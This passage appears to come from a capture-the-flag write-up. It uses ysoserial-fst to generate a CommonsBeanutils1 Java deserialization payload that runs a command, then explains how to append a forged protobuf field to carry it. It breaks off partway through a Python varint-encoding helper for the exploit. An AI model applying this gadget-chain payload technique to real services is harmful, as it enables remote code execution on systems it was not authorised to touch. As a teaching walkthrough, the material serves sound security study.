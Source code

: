 ```shell
root@58cc9472a197:/opt/wonderland# java -jar ysoserial-fst-private-master/target/ysoserial-0.0.6-SNAPSHOT-all.jar -fst CommonsBeanutils1 ls | xxd
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by org.nustaq.serialization.FSTClazzInfo (file:/opt/wonderland/ysoserial-fst-private-master/target/ysoserial-0.0.6-SNAPSHOT-all.jar) to field java.lang.String.value
WARNING: Please consider reporting this to the maintainers of org.nustaq.serialization.FSTClazzInfo
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
00000000: 0001 176a 6176 612e 7574 696c 2e50 7269  ...java.util.Pri
00000010: 6f72 6974 7951 7565 7565 3763 0200 012b  orityQueue7c...+
00000020: 6f72 672e 6170 6163 6865 2e63 6f6d 6d6f  org.apache.commo
00000030: 6e73 2e62 6561 6e75 7469 6c73 2e42 6561  ns.beanutils.Bea
00000040: 6e43 6f6d 7061 7261 746f 7200 013f 6f72  nComparator..?or
...
```

#### Crafting Protobuf Fields Manually

Now that we have our means of forging appended data as well as the generation of the FST serialized
payload, our next goal is to construct the protobuf field to be appended. The ideal next step is to
create a fake fireworks field containing the attack payload.

To do this, we must first understand what varints and keys are from the [Protobuf Encoding
documentation](https://developers.google.com/protocol-buffers/docs/encoding). The official article
is excellent, please read until the 'Message Structure' section.

Since a protocol buffer message is a series of key-value pairs', we can simply add on an additional
key-value pair.

This is the field we want to construct:

```proto
    repeated bytes fireworks = 5;
```

In a nutshell, we have to lay it out like so:

```
[varint: field << 3 | wire type] [varint: length] [bytes: data]
```

Once this is constructed, we can encode it with Base64 and attempt to append it to the original
data.

#### Crafting an Exploit

As with the previous stages, the exploit in this section will expand on the previous one.

First, utilities to create varints and keys are defined with reference to the Protobuf
documentation:

```python
def encode_varint(number: int) -> bytes:
    '''Encodes a number into a varint.
    '''
    # First the number needs to be chunked up into groups of 7 bits.
    groups = []
    current_number = number
    while current_number > 0:
        current_group = current_number & 0x7f
        current_number = current_number >> 7
        groups.append(current_group)

    # For each group, set the MSB based on the index and append them. The least significant group
    # starts first.
    result = b''
    for i, group in enumerate(groups):
        mask = 0x80
```